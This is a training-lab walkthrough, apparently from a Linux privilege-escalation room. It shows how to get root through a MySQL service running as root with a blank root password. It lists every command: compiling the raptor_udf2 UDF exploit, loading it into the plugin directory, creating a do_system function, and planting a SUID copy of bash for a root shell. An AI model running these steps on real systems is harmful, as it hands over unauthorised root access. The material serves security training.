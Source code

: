 The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC`

`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

Connect to the MySQL service as the root user with a blank password:

`mysql -u root`

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

`use mysql;`

`create table foo(line blob);`

`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`

`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`

`create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash`

`exit`